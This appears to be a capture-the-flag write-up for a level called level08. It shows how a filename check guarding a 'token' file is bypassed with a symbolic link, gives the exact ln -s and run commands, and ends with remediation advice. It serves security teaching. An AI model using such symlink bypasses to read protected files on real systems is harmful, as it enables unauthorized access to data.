

# Level08 - Symlink Bypass of Filename

## Description

The `level08` binary expects a filename as input. Using `strings`:

```bash
%s [file to read]
token
You may not access '%s'
```

It appears that files containing the name `"token"` are blocked:

```bash
./level08 token
You may not access 'token'
```
Using `ltrace`, it was confirmed that the restriction is applied only to the filename, not to the actual file being accessed. 

## Exploitation

I bypassed this by creating a symlink with a different name:

```bash
ln -s /home/user/level08/token /tmp/test
./level08 /tmp/test
```

The binary follows the symlink and reads the protected file, retrieving the flag with `flag08` privileges.

## Remediation
- Avoid relying on filename checks for access control
- Use proper filesystem permissions to restrict access to sensitive files

## Conclusion

This vulnerability shows that filename-based restrictions can be bypassed using symbolic links, leading to unauthorized access.


